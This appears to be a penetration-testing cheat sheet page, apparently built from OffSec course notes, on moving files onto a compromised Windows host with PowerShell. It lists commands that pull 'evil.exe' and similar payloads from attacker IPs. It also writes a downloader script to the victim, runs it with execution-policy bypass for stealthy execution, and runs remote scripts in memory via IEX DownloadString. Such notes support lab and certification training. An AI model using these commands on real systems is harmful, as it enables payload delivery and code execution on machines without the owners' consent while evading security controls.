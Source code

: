 ```yaml
---
description: >-
  Powershell File Download
title: Powershell Download              # Add title here
date: 2023-01-29 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Powershell Download]                     # Change Templates to Writeup
tags: [file transfer, powershell download]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### iwr (Invoke-Web-Request)
Transfer a file with the following command:
```bash
PS> iwr -uri http://10.10.14.4/PsBypassCLM.exe -OutFile PsBypassCLM.exe
```
Execute this commands to create wget.ps1 on victim machine:
```powershell
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >> wget.ps1
echo $file = "new-exploit.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
To ensure both correct and stealthy execution, we specify a number of options in the execution of the script, it must be executed on cmd as shown below:
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
One-liner of the above command:
```bash
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://localhost/evil.exe', 'new-exploit.exe')
```
If we want to download and execute a PowerShell script without saving it to disk, we can once again use the System.Net.Webclient class. This is done by combining the DownloadString method with the Invoke-Expression cmdlet (IEX).3
To demonstrate this, we will create a simple PowerShell script on our Kali machine:
```bash
kali@kali:/var/www/html$ sudo cat helloworld.ps1 
Write-Output "Hello World"
```

Next, we will run the script with the following command on our compromised Windows machine (Listing 21):
```powershell
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```

### New-Object
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```